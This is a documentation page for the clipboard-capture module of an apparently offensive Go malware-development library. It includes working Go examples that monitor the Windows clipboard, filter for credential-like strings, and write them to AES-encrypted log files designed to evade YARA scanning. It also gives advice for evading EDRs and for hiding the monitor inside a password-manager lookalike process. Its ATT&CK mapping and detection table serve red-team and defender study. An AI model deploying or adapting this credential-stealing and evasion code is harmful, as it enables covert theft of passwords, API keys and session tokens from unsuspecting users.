

# Clipboard capture

[← collection index](README.md) · [docs/index](../../index.md)

## TL;DR

`ReadText` returns the current clipboard text in one call. `Watch` polls
`GetClipboardSequenceNumber` and streams each new distinct text value on a
channel until the context is cancelled — no hooks, no DLL injection, pure
Win32 API that blends with legitimate software traffic.

## Primer

Users routinely copy passwords, API keys, and session tokens to the
clipboard — from password managers, browser address bars, and SSH key
files. Clipboard monitoring captures that data in transit regardless of
how the application populates the clipboard.

The implementation deliberately avoids clipboard notification hooks
(`AddClipboardFormatListener`, `SetClipboardViewer`). Those mechanisms require
a message window and are scrutinised by EDRs. Instead, `Watch` polls
`GetClipboardSequenceNumber`, a lightweight integer that the OS increments on
every clipboard write. When the number changes, `OpenClipboard` +
`GetClipboardData(CF_UNICODETEXT)` reads the new content. The poll interval
is caller-controlled: aggressive (100 ms) catches rapid-fire credential
pastes; gentle (1–5 s) is indistinguishable from benign polling.

`ReadText` is a one-shot variant for the case where the operator wants to
snapshot the clipboard immediately after gaining execution — for instance,
after a `runas` escalation that may have left a password on the clipboard.

## How It Works



Key implementation details:

- `GetClipboardSequenceNumber` requires no clipboard ownership and no message
  window — it is a pure read of a kernel counter.
- `OpenClipboard(0)` (null HWND) is valid and avoids creating a fake window
  that process-enumeration tools could flag.
- On `ErrOpen` (another process holds the clipboard momentarily) `Watch`
  silently skips the tick rather than blocking — the next tick will retry.
- The first value is emitted unconditionally on `Watch` start, regardless of
  whether the sequence number has changed since the last call.

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/collection/clipboard`](https://pkg.go.dev/github.com/oioio-space/maldev/collection/clipboard) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple

```go
import (
    "context"
    "fmt"
    "time"

    "github.com/oioio-space/maldev/collection/clipboard"
)

// One-shot read.
text, err := clipboard.ReadText()
if err == nil {
    fmt.Println(text)
}

// Continuous monitor — print every change.
ctx, cancel := context.WithTimeout(context.Background(), 5*time.Minute)
defer cancel()
for content := range clipboard.Watch(ctx, 500*time.Millisecond) {
    fmt.Println("copied:", content)
}
```

### Composed (credential filter)

Emit only values that look like credentials — reduces noise and limits the
on-disk footprint.

```go
import (
    "context"
    "strings"
    "time"
    "unicode"

    "github.com/oioio-space/maldev/collection/clipboard"
)

func looksLikeCredential(s string) bool {
    if len(s) < 8 || len(s) > 512 {
        return false
    }
    hasDigit, hasUpper, hasSpecial := false, false, false
    for _, r := range s {
        switch {
        case unicode.IsDigit(r):
            hasDigit = true
        case unicode.IsUpper(r):
            hasUpper = true
        case !unicode.IsLetter(r) && !unicode.IsDigit(r):
            hasSpecial = true
        }
    }
    return (hasDigit && hasUpper) || hasSpecial ||
        strings.ContainsAny(s, "@:$%#")
}

func credentialWatch(ctx context.Context) <-chan string {
    out := make(chan string)
    go func() {
        defer close(out)
        for text := range clipboard.Watch(ctx, 300*time.Millisecond) {
            if looksLikeCredential(text) {
                out <- text
            }
        }
    }()
    return out
}
```

### Advanced (encrypt-then-log to per-day file)

Encrypt each clipboard entry with AES-GCM before writing to disk — the
on-disk artefact is opaque to YARA/string scanning.

```go
import (
    "context"
    "fmt"
    "log"
    "os"
    "time"

    "github.com/oioio-space/maldev/collection/clipboard"
    "github.com/oioio-space/maldev/crypto"
)

func main() {
    key, err := crypto.NewAESKey()
    if err != nil {
        log.Fatal(err)
    }
    logPath := fmt.Sprintf("clip-%s.bin", time.Now().Format("2006-01-02"))
    f, err := os.OpenFile(logPath, os.O_APPEND|os.O_CREATE|os.O_WRONLY, 0o600)
    if err != nil {
        log.Fatal(err)
    }
    defer f.Close()

    for text := range clipboard.Watch(context.Background(), 500*time.Millisecond) {
        blob, _ := crypto.EncryptAESGCM(key, []byte(text))
        _, _ = f.Write(blob)
    }
}
```

See `ExampleReadText` in
[`clipboard_example_test.go`](../../../collection/clipboard/clipboard_example_test.go).

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| Repeated `OpenClipboard` + `GetClipboardData` calls | API-frequency telemetry; rate-based hunts flag >10 open/close cycles per second |
| `GetClipboardSequenceNumber` in a tight loop | Behavioural heuristics; legitimate apps call this at human-interaction rates |
| Clipboard-access audit log (Windows 10 1809+) | Privacy Settings → Clipboard history; third-party EDR clipboard hooks |
| Process making clipboard calls without a visible UI | Anomaly heuristics in MDE / CrowdStrike behavioural engine |

**D3FEND counters:**

- [D3-PA](https://d3fend.mitre.org/technique/d3f:ProcessAnalysis/) —
  behavioural API-usage analysis.

**Hardening for the operator:** use a 500 ms or slower poll interval; embed
the monitor in a process that legitimately accesses the clipboard (browser
helper, password-manager lookalike); avoid running from a headless service
where clipboard access is anomalous.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1115](https://attack.mitre.org/techniques/T1115/) | Clipboard Data | full — both one-shot and continuous polling | D3-PA |

## Limitations

- **Text only.** `CF_UNICODETEXT` format only; binary clipboard data (images,
  file paths via `CF_HDROP`, rich text) is not captured.
- **Session boundary.** Clipboard access is confined to the current Windows
  session; an implant in Session 0 cannot read Session 1 clipboard data.
- **Race on `ErrOpen`.** If another process holds the clipboard continuously
  (rare but possible), `Watch` will silently miss those ticks.
- **Windows only.** No Linux/macOS equivalent; build tag `windows` is
  required.

## See also

- [Keylogging](keylogging.md) — captures Ctrl+V paste events as part of the
  keystroke stream.
- [Screen capture](screenshot.md) — visual complement to clipboard and
  keystroke collection.
- [`crypto`](../crypto/README.md) — encrypt captured text before writing to
  disk.
- [`cleanup/ads`](../cleanup/README.md) — hide log files in NTFS ADS.
- [Operator path](../../by-role/operator.md) — post-exploitation collection
  chains.
- [Detection eng path](../../by-role/detection-eng.md) — clipboard monitoring
  detection telemetry.
